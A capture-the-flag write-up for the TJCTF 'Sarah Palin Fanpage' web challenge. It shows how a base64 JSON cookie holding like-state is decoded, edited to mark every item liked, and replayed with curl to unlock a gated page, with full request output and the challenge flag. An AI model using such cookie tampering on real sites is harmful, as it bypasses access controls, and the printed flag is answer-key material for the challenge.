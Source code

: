 ### Challenge

```
Sarah Palin Fanpage 35 points Web - Unsolved (466 solves)
Written by jpes707

Are you a true fan of Alaska's most famous governor? Visit the Sarah Palin fanpage.
```

### Solve

* It is a fan page which has the following pages
  - /About - wikipedia page of sarah palin
  - /Home  - has intro page 
  - /top10 - has 10 moments in a GIF and LIKE/UNLIKE button
  - /exclusive - is unauthorized unless 10 LIKES have been made

* Manually liking the moments is blocked at 5. ( clicking buttons is blocked )
* Easy intercept and alter should work but the domain containing underscores does not work good with burpsuite
* Use curl or tweak the JS code
* LIKE logic
  - the likes are transferred using base64 encoded string in cookie `data`

```
__cfduid=d9d23e47d15268c5aac5185687e925cbd1590120921; cf_clearance=c692c1eb8c4ec513c160682ea94bd12dc5f3d51b-1590442833-0-250; data=eyIxIjpmYWxzZSwiMiI6ZmFsc2UsIjMiOnRydWUsIjQiOmZhbHNlLCI1IjpmYWxzZSwiNiI6ZmFsc2UsIjciOnRydWUsIjgiOnRydWUsIjkiOnRydWUsIjEwIjp0cnVlfQ%3D%3D
```

```
echo `eyIxIjpmYWxzZSwiMiI6ZmFsc2UsIjMiOnRydWUsIjQiOmZhbHNlLCI1IjpmYWxzZSwiNiI6ZmFsc2UsIjciOnRydWUsIjgiOnRydWUsIjkiOnRydWUsIjEwIjp0cnVlfQ==` | base64 -d

{"1":false,"2":false,"3":true,"4":false,"5":false,"6":false,"7":true,"8":true,"9":true,"10":true}
```

* Encode the exploit payload
```
echo '{"1":true,"2":true,"3":true,"4":true,"5":true,"6":true,"7":true,"8":true,"9":true,"10":true}' | base64
eyIxIjp0cnVlLCIyIjp0cnVlLCIzIjp0cnVlLCI0Ijp0cnVlLCI1Ijp0cnVlLCI2Ijp0cnVlLCI3Ijp0cnVlLCI4Ijp0cnVlLCI5Ijp0cnVlLCIxMCI6dHJ1ZX0K
```

* Construct Curl
```
curl -v --cookie "__cfduid=d9d23e47d15268c5aac5185687e925cbd1590120921; cf_clearance=c692c1eb8c4ec513c160682ea94bd12dc5f3d51b-1590442833-0-250; data=eyIxIjp0cnVlLCIyIjp0cnVlLCIzIjp0cnVlLCI0Ijp0cnVlLCI1Ijp0cnVlLCI2Ijp0cnVlLCI3Ijp0cnVlLCI4Ijp0cnVlLCI5Ijp0cnVlLCIxMCI6dHJ1ZX0K" https://sarah_palin_fanpage.tjctf.org/exclusive
``` 

* Fire payload
```
curl -v --cookie "__cfduid=d9d23e47d15268c5aac5185687e925cbd1590120921; cf_clearance=c692c1eb8c4ec513c160682ea94bd12dc5f3d51b-1590442833-0-250; data=eyIxIjp0cnVlLCIyIjp0cnVlLCIzIjp0cnVlLCI0Ijp0cnVlLCI1Ijp0cnVlLCI2Ijp0cnVlLCI3Ijp0cnVlLCI4Ijp0cnVlLCI5Ijp0cnVlLCIxMCI6dHJ1ZX0K" https://sarah_palin_fanpage.tjctf.org/exclusive
*   Trying 104.27.143.197...
* TCP_NODELAY set
* Connected to sarah_palin_fanpage.tjctf.org (xx.xx.xx.xx) port 443 (#0)
* TLS 1.2 connection using TLS_ECDHE_ECDSA_WITH_AES_128_GCM_SHA256
* Server certificate: sni.cloudflaressl.com
* Server certificate: CloudFlare Inc ECC CA-2
* Server certificate: Baltimore CyberTrust Root
> GET /exclusive HTTP/1.1
> Host: sarah_palin_fanpage.tjctf.org
> User-Agent: curl/7.55.1
> Accept: */*
> Cookie: __cfduid=d9d23e47d15268c5aac5185687e925cbd1590120921; cf_clearance=c692c1eb8c4ec513c160682ea94bd12dc5f3d51b-1590442833-0-250; data=eyIxIjp0cnVlLCIyIjp0cnVlLCIzIjp0cnVlLCI0Ijp0cnVlLCI1Ijp0cnVlLCI2Ijp0cnVlLCI3Ijp0cnVlLCI4Ijp0cnVlLCI5Ijp0cnVlLCIxMCI6dHJ1ZX0K
> 
< HTTP/1.1 200 OK
< Date: Mon, 25 May 2020 21:57:46 GMT
< Content-Type: text/html; charset=utf-8
< Transfer-Encoding: chunked
< Connection: keep-alive
< X-Powered-By: Express
< CF-Cache-Status: DYNAMIC
< Expect-CT: max-age=604800, report-uri="https://report-uri.cloudflare.com/cdn-cgi/beacon/expect-ct"
< Server: cloudflare
< CF-RAY: 599283941bd6e37a-SEA
< cf-request-id: 02ef70908e0000e37aa420420000000
< 
    <head>
        <link rel="shortcut icon" href="media/favicon2.png">
        <link rel="stylesheet" type="text/css" href="stylesheets/style.css">
        <title>Sarah Palin fanpage</title>
        <script src="https://ajax.googleapis.com/ajax/libs/jquery/2.2.4/jquery.min.js"></script>
    </head>

    <body>
        <div id="navbar"></div>
        <h1>Exclusive fanpage</h1>
        <h2>Access granted</h2>
        <p>You are a true Sarah Palin fan! The flag is tjctf{wkDd2Pi4rxiRaM5lOcLo979rru8MFqVHKdTqPBm4k3iQd8n0sWbBkOfuq9vDTGN9suZgYlH3jq6QTp3tG3EYapzsTHL7ycqRTP5Qf6rQSB33DcQaaqwQhpbuqPBm4k3iQd8n0sWbBkOf}.</p>
        <iframe width="800" height="450" src="https://www.youtube-nocookie.com/embed/GmhJXoQTvTA?autoplay=1" frameborder="0" allow="accelerometer; autoplay; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>
    </body>

* Connection #0 to host sarah_palin_fanpage.tjctf.org left intact
<script src="javascripts/navbar.js" id="exclusive"></script>
```

* Flag: tjctf{wkDd2Pi4rxiRaM5lOcLo979rru8MFqVHKdTqPBm4k3iQd8n0sWbBkOfuq9vDTGN9suZgYlH3jq6QTp3tG3EYapzsTHL7ycqRTP5Qf6rQSB33DcQaaqwQhpbuqPBm4k3iQd8n0sWbBkOf}
